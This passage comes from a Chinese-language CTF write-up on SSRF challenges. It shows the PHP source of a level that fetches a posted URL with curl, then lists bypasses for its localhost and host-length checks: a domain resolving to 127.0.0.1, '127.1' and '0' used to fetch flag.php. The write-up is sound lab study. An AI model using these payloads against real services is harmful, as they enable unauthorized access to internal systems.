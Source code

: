```php
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

把0和1都办了，我们可以找一个dns指向127.0.0.1的绕过

满足解析到127.0.0.1的合适域名即可

```(空)
url=http://sudo.cc/flag.php
```



### web355

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

限制host的内容＜5个字符

`url=http://127.1/flag.php`

`url=http://0/flag.php `



### web356
